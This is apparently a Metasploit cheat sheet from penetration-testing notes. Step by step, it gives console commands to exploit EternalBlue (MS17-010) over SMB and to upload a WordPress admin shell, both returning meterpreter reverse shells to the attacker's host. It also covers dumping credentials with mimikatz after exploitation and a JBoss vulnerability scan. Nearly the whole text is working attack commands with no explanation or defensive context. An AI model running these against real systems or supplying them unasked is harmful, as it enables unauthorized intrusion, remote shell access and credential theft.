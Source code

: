 ```text
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <ip>
set RPORT 445
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
set VerifyTarget true
exploit
```

**Post‑ex** (dump creds)

```text
use post/windows/gather/credentials/mimikatz
set SESSION <id>
run
```

---

### A.2 WordPress (Authenticated Upload)

**Detect**

```text
use auxiliary/scanner/http/wordpress_scanner
set RHOSTS <ip>
set RPORT 80
set TARGETURI /
run
```

**Exploit** _(need valid admin creds)_

```text
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS <ip>
set RPORT 80
set TARGETURI /
set USERNAME <wp_admin>
set PASSWORD <wp_pass>
set PAYLOAD php/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT 4444
exploit
```

---

### A.3 JBoss (Deployment/Console)

**Detect**

```text
use auxiliary/scanner/http/jboss_vulnscan
set RHOSTS <ip>
set RPORT 8080
run
```
